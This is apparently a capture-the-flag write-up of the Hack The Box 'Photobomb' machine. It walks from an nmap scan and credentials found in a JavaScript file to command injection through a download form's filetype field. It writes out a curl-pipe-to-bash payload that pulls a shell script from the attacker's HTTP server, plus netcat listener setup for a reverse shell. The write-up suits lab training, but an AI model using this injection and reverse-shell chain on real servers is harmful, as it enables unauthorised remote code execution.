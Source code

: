 # Photobomb
## Part 1: Discovery
### Scanning
I have scanned the ip address of the machine using nmap
``` sudo nmap -sVC -T4 -p- machine_ip ```<br/>
According to the nmap result there are 2 services serving on port 22 and port 80. <br/>
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://photobomb.htb/
```
### Investigating the website
When the website is visited, It is not available. We need to configure our local dns server to make possible to visit the website. <br/>
``` sudo vi /etc/hosts```<br/>
After opening the vi editor, insert: ```machine_ip photobomb.htb```. <br/>
Now the website is visitable.<br/>
It is possible to find ```photobomb.js``` when the source code is inspected.<br/>
go to this URL : ```http://photobomb.htb/photobomb.js``` <br/>
we can see that with this url : ```http://pH0t0:b0Mb!@photobomb.htb/printer``` we can log into the site with credentials. <br/>

### Burpsuite
In this website we can download a bunch of images. We can select resolution and the filetype.<br/>
When we analyze the request made when the download button has clicked, it is visible that image name, filetype and resolution are being sent to the backend. <br/>
```photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg&dimensions=3000x2000``` <br/>
We can use this opening to feed our reverse shell into the sever.<br/>


 ## Part 2 : Exploiting
 ### Preping a reverse shell
 I wanted to make this website pull a shell script from my ip. For this purpose; <br/>
 - I have opened a netcast listener on port 443. When the shell script has run, listener will catch and makes us traverse the server directories.<br/>
 - We are going to make the website pull shell script from a python http server which is running on port 8080.<br/>
 - For creating a reverse shell code go to : https://www.revshells.com/ , enter your ip and your listeners port. copy the command
 - open terminal
 - execute :  ```echo 'your_shell_command_here' > shell.sh```. We created a shell script. Whenever this file is run, it will exeucte the shell command.
 - Start a python server ```python3 -m http.server 8080```
 - URL encode ```curl your_ip:python_server_port/shell.sh|bash``` This will be fed to the target system to pull our shell script.
 Our Reverse Shell is ready to be pulled. It is time to feed the shell to the target system.
 
 ### Feeding the shell
 As I mentioned before, the filetype is being sent to the backend. we can make the target computer run a spesific command from here. <br/>
 - First: we paste our url encoded curl command next to the filetype in burpsuite and proceed to download the images: <br/>  ```photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg;curl%20YOURIP%3APYTHONPORT%2Fshell.sh%20%7C%20bash&dimensions=3000x2000``` <br/> Images will not be downloaded and our shell is serving on our listener.
 - You can see at the listener ```connect to [your_ip] from (UNKNOWN) [target_ip] 51488``` We are succesfully penetrated into the target system.
 - search for the flag. It is in a file called user.txt